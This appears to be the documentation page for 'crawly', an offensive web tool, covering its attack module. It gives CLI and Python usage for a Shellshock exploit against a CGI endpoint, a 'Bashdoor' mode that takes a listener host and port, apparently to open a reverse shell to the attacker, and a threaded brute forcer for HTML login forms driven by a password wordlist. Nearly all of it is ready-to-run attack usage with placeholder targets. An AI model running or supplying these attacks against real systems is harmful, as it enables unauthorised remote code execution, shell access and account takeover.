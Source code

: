 # Attack

# File

- [x] attack.py

This file contains attacking classes of crawly. Each class instancied is auto runned with the gived paremeters.

# Shellshock / Bashdoor

```
# CLI command
crawly -A http://www.test.com/cgi-bin/vuln.cgi --shellshock
crawly -A http://www.test.com/cgi-bin/vuln.cgi --bashdoor --lhost 192.168.1.2 --lport 4444
```
```python
class Shellshock:
    def __init__(self, URL)

class Bashdoor:
    def __init__(self, RURL, LHOST, LPORT)
    
>>> import crawly
>>> URL = "http://www.test.com/cgi-bin/vuln.cgi"
>>> crawly.Shellshock(URL)
>>> crawly.Bashdoor(URL, "192.168.1.2", 4444)
```

# HTML form bruteforcer
```
Can break simple HTML forms.

```python
class HTMLBrute:
	def __init__(self, URL, USERFIELD="username", PASSFIELD="password", ERRORMSG="Error", 
		USER="admin", WORDLIST, THREADS)

>>> import crawly
>>> crawly.HTMLBrute("http://test.com/admin.php", ERRORMSG="Login Error", USER="webmaster", WORDLIST="pass_list.lst", THREADS=35)
```
